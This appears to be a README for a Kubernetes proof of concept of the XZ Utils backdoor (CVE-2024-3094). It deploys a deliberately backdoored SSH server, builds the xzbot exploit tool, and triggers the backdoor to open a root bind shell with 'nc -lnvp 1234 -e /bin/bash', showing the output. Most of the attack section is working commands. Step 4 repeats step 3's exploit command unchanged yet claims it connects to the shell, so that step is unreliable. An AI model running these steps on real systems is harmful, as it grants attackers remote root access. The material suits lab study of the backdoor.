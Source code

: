 # xzwhy
```
 _  _  ____  _  _ 
( \/ )(_   )( \/ )
 )  (  / /_  \  / 
(_/\_)(____) (__) 

```

This project is a Kubernetes friendly Proof of Concept (POC) for [CVE-2024-3094](https://nvd.nist.gov/vuln/detail/CVE-2024-3094) affecting XZ Utils. See [this article](https://pentest-tools.com/blog/xz-utils-backdoor-cve-2024-3094) for an excellent walkthrough of the exploit's provenance and mechanics.

# WARNING 
⚠⚠⚠

Running any of the commands below may result in the deployment of a vulnerable application that is highly susceptible to attack. If you choose to follow these steps, it is recommended that you do so in an airgapped test environment. 

⚠⚠⚠


## Instructions


### 1: Roll out the vulnerable application
```
kubectl create -f xzwhy.yml
```

### 2: Obtain the vulnerable endpoint's URL
The vulnerable SSH endpoint exposes two ports via a load balancer: 2222 is listening for SSH connections and 1234 is a convenience to allow ingress on a bind shell port that we will use during the exploit
```
  type: LoadBalancer
  ports:
    - name: ssh
      protocol: TCP
      port: 2222
      targetPort: 2222
    - name: exploitshellingress
      protocol: TCP
      port: 1234
      targetPort: 1234
```

We can extract the deployed loadbalancer's URL using kubectl:
```
xzwhy_endpoint=`kubectl get services -o jsonpath='{.items[0].status.loadBalancer.ingress[0].hostname}' --namespace=xzwhy-ns --field-selector metadata.name=xzwhy-loadbalancer` && echo $xzwhy_endpoint
```


### 3: Initiate the attack by making a malicious SSH connection
Now we connect to the vulnerable server using the [teamnautilus/xzbot](https://hub.docker.com/r/teamnautilus/xzbot) utility:
```
docker run -it --rm golang:latest /bin/bash -c "mkdir -p /xzbot && pushd /xzbot/ && git clone https://github.com/amlweems/xzbot.git && ls -laF && pushd ./xzbot/ && go build -o /xzbot/tmp/; popd && /xzbot/tmp/xzbot -h && /xzbot/tmp/xzbot -addr $xzwhy_endpoint:2222 -cmd 'nc -lnvp 1234 -e /bin/bash'"
```

The entrypoint of this container is ```entrypoint: /bin/bash -c "env -i LANG=en_US.UTF-8 && unset TERM && unset LD_DEBUG && LD_LIBRARY_PATH=/CVE-2024-3094/ /usr/sbin/sshd -p 2222 -D"```

This will cause the vulnerable SSH server to execute a bind shell via ```nc -lnvp 1234 -e /bin/bash``` on our behalf. After running this command you should see something similar to:
```
Cloning into 'xzbot'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 14), reused 25 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 422.65 KiB | 8.99 MiB/s, done.
Resolving deltas: 100% (14/14), done.
total 12
drwxr-xr-x 3 root root 4096 Apr 17 22:37 ./
drwxr-xr-x 1 root root 4096 Apr 17 22:37 ../
drwxr-xr-x 4 root root 4096 Apr 17 22:37 xzbot/
/xzbot/xzbot /xzbot /go
go: downloading github.com/cloudflare/circl v1.3.7
go: downloading golang.org/x/crypto v0.21.0
go: downloading golang.org/x/sys v0.18.0
/xzbot /go
Usage of /xzbot/tmp/xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000a0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000b0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000c0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000d0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000e0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000100  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000110  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000120  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000130  00 00 00 00 00 00 00 00  00 00 00 01 00 00 00 00  |................|
00000140  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  34 12 00 00 78 56 00 00  |........4...xV..|
00000180  a2 ff d9 f9 ff ff ff ff  a1 36 c4 cc b3 b2 4d b3  |.........6....M.|
00000190  99 11 52 a7 2c 38 d2 29  f9 5d 1a 06 63 36 1e 48  |..R.,8.).]..c6.H|
000001a0  9c 95 4e f1 77 41 07 92  1c a4 9f b0 b4 dc 93 c2  |..N.wA..........|
000001b0  66 03 3d fa 5c 8b 49 41  86 26 42 88 2b 9d 5b 4c  |f.=.\.IA.&B.+.[L|
000001c0  b8 a4 5e 9d 62 c3 51 0a  be ca 5d 8a 47 45 3a 1e  |..^.b.Q...].GE:.|
000001d0  99 1f c1 0e 97 b7 58 ec  51 45 5b 24 3f b4 69 6a  |......X.QE[$?.ij|
000001e0  68 45 7c 3b 3a d9 d7 0a  ad 09 04 d8 a1 b9 81 22  |hE|;:.........."|
000001f0  58 69 eb 07 ad 91 53 15  b2 1d bf 47 b9 48 a0 4e  |Xi....S....G.H.N|
00000200  8b 28 cd 82 4b fd 72 17  12 ce 7f e7 15 3c 9e fa  |.(..K.r......<..|
00000210  a7 e1 d6 e4 ec eb 66 34  5a 74 00 00 00 00 00 00  |......f4Zt......|
00000220  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000230  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000240  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000250  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
```

### 4: Profit
Connect to the shell you spawned. Note the use of the xzwhy_endpoint variable:
```
docker run -it --rm golang:latest /bin/bash -c "mkdir -p /xzbot && pushd /xzbot/ && git clone https://github.com/amlweems/xzbot.git && ls -laF && pushd ./xzbot/ && go build -o /xzbot/tmp/; popd && /xzbot/tmp/xzbot -h && /xzbot/tmp/xzbot -addr $xzwhy_endpoint:2222 -cmd 'nc -lnvp 1234 -e /bin/bash'"
```

It isn't immediately obvious, but the command above should now be connected to the remote bind shell. You can test this by running various commands:
```
whoami
root
```

```
ls -liart
total 0
29377113 drwxr-xr-x   2 root root   6 Jun 11  2023 home
26259491 drwxr-xr-x   2 root root   6 Jun 11  2023 boot
24205734 drwxr-xr-x   1 root root  41 Mar 11 00:00 var
40912790 drwxr-xr-x   1 root root  30 Mar 11 00:00 usr
37758063 drwxr-xr-x   2 root root   6 Mar 11 00:00 srv
15748188 lrwxrwxrwx   1 root root   8 Mar 11 00:00 sbin -> usr/sbin
32522820 drwxr-xr-x   2 root root   6 Mar 11 00:00 opt
31465607 drwxr-xr-x   2 root root   6 Mar 11 00:00 mnt
30427284 drwxr-xr-x   2 root root   6 Mar 11 00:00 media
15748187 lrwxrwxrwx   1 root root   9 Mar 11 00:00 lib64 -> usr/lib64
15748186 lrwxrwxrwx   1 root root   7 Mar 11 00:00 lib -> usr/lib
15748184 lrwxrwxrwx   1 root root   7 Mar 11 00:00 bin -> usr/bin
12633381 drwx------   1 root root  18 Mar 30 12:22 root
       1 dr-xr-xr-x  13 root root   0 Apr 17 21:44 sys
34652905 drwxr-xr-x   1 root root  61 Apr 17 22:26 ..
34652905 drwxr-xr-x   1 root root  61 Apr 17 22:26 .
       1 dr-xr-xr-x 166 root root   0 Apr 17 22:26 proc
 3413214 drwxr-xr-x   1 root root  39 Apr 17 22:26 etc
       1 drwxr-xr-x   5 root root 360 Apr 17 22:26 dev
39855738 drwxrwxrwt   1 root root   6 Apr 17 22:26 tmp
14845582 drwxr-xr-x   1 root root  37 Apr 17 22:26 run

```


### 5: Cleanup
```
kubectl delete -f xzwhy.yml
```


# Credits

* [teamnautilus](https://hub.docker.com/r/teamnautilus/xzbot) created a [server vulnerable to the exploit](https://hub.docker.com/r/teamnautilus/xzbot)
* [amlweems](https://github.com/amlweems/xzbot.git) published an automated tool for exploiting vulnerable SSH endpoints
* [patorjk](https://patorjk.com/software/taag/#p=testall&f=Graffiti&t=xzy) created an excellent text-to-ascii art generator
